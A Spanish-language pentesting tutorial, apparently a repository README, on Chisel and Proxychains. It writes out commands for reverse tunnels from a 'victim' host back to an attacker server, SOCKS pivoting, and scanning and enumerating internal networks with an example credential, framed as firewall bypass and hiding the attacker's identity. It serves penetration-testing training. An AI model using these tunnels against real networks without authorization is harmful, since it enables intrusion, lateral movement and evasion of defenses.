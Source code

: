 # 🚀 Herramientas de Túneles y Proxies en Pentesting

Este documento explica el uso de **Chisel** y **Proxychains**, herramientas muy útiles para pentesting y movimientos laterales dentro de redes comprometidas.

---

# **1️⃣ Chisel**

### **Qué es**
- Chisel es una **herramienta de túneles TCP/UDP** que permite **redirigir tráfico a través de conexiones HTTP o HTTPS**.
- Muy utilizada en pentesting para **bypassear firewalls y NAT**, creando túneles entre una máquina atacante y un host comprometido.

### **Cómo funciona**
- Funciona en **modo servidor y cliente**:
  - **Servidor**: en la máquina atacante, escucha conexiones entrantes.  
  - **Cliente**: en la máquina víctima, se conecta al servidor y redirige tráfico local hacia él.

https://github.com/jpillora/chisel/releases




┌──(kali㉿kali)-[~/Downloads]
└─$ chmod +x chisel  
                                                                                                                               
---

## **Ejemplo 1: Redirección básica de un puerto**
**Servidor (atacante):**
```bash
chisel server -p 8080 --reverse
```

En la **máquina víctima (cliente)**:

```bash
chisel client 10.0.0.5:8080 R:3389:127.0.0.1:3389
```

* Esto crea un túnel inverso, redirigiendo el **RDP (3389)** de la víctima hacia el atacante.



## Ejemplo 2: Redirección de todos los puertos (Pivoting)
En la **máquina atacante (servidor)**:

```bash
chisel server --reverse -p 4455 
```

En la maquina(victima) pivoting vamos a reenviar el trafico

```bash
chisel.exe client 10.250.1.6:4455 R:socks
```
* Esto crea un túnel SOCKS, permitiendo que el atacante redirija todo el tráfico a través de la víctima.


**Configuración de Chisel con Proxychains**
```bash
sudo nano /etc/proxychains4.conf 
```
* El puerto 1080 corresponde al proxy SOCKS que crea Chisel.
* Agrega la siguiente línea al final del archivo: 

**Se agrega la siguiente linea de configuracion**

```bash
socks5 127.0.0.1 1080
```

* Esto permite que cualquier aplicación que use Proxychains se conecte a través del túnel creado por Chisel.

**Uso típico en pentesting:**

* Acceso remoto a servicios internos de la red víctima.
* Bypass de firewalls y NAT sin abrir puertos directos.

-----

# **2️⃣ Proxychains**

**Qué es:**

* Proxychains es una **herramienta que fuerza el tráfico de una aplicación a través de proxies** (HTTP, SOCKS4/5).
* Permite **ocultar la IP del atacante** o **penetrar redes restringidas** usando un proxy intermedio.

**Cómo funciona:**

* Se configura un archivo `proxychains.conf` con proxies disponibles.
* Luego ejecutas cualquier comando con `proxychains`, y su tráfico pasará por los proxies configurados.

**Ejemplo básico:**

```bash
proxychains nmap -sT -Pn 10.0.0.0/24
```
**Ejemplo Con rpcclient**

* listar los usuario.

```bash
proxychains4 rpcclient -U 'John%VerySafePassword!' 10.200.150.10 
```

**Esto fuerza que la conexión pase por la cadena de proxies definida, protegiendo la identidad del atacante.**


## Uso típico en pentesting:

* Escanear redes internas desde un punto externo.
* Ocultar la identidad del atacante.
* Encadenar múltiples proxies para anonimato o evadir detección.

---

## Resumen rápido:

| Herramienta | Propósito principal                                | Uso típico                                    |
| ----------- | -------------------------------------------------- | --------------------------------------------- |
| Chisel      | Crear túneles TCP/UDP a través de HTTP/HTTPS       | Acceso remoto, bypass de firewalls/NAT        |
| Proxychains | Forzar tráfico de aplicaciones a través de proxies | Anonimato, evadir filtrado, pentesting remoto |

---